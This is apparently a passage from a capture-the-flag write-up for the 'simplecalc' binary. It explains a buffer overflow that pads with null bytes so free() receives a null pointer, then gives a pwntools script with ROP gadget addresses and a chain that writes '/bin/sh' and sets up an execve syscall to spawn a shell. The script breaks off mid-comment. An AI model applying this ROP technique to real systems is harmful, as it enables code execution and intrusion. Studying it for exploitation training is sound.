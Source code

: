 We can see here that if the argument we pass to free is a null pointer (`0x0`) then it just returns. Since the function writing the data for the overflow is `memcpy`, we can write null bytes. So if we just fill up the space between the start of our input and the return address with null bytes, we will be fine.

With that, we have everything we need to make the exploit. In the comments, you can find the exact ROP chain I used as well as what each part does. Also I wrote some helper functions which will write the values I want using addition:

```
from pwn import *

target = process('./simplecalc')
#gdb.attach(target, gdbscript = 'b *0x40154a')

target.recvuntil(b'calculations: ')
target.sendline(b'100')

# Establish our rop gadgets
popRax = 0x44db34
popRdi = 0x401b73
popRsi = 0x401c87
popRdx = 0x437a85

# 0x000000000044526e : mov qword ptr [rax], rdx ; ret
movGadget = 0x44526e

syscall = 0x400488

# These two functions are what we will use to give input via addition
def addSingle(x):
  target.recvuntil(b"=> ")
  target.sendline(b"1")
  target.recvuntil(b"Integer x: ")
  target.sendline(b"100")
  target.recvuntil(b"Integer y: ")
  target.sendline(bytes(str(x - 100), encoding='utf-8'))


def add(z):
  x = z & 0xffffffff
  y = ((z & 0xffffffff00000000) >> 32)
  addSingle(x)
  addSingle(y)

# Fill up the space between the start of our input and the return address
for i in range(9):
  # Fill it up with null bytes, to make the ptr passed to free be a null pointer
  # So free doesn't crash
  add(0x0)

# Start writing th0e rop chain
'''
This is our ROP Chain

Write "/bin/sh" tp 0x6c1000

pop rax, 0x6c1000 ; ret
pop rdx, "/bin/sh\x00" ; ret
mov qword ptr [rax], rdx ; ret

# Move the needed values into the registers
pop rax, 0x3b ; ret
pop rdi, 0x6c1000 ; ret
pop rsi, 0x0 ; ret
```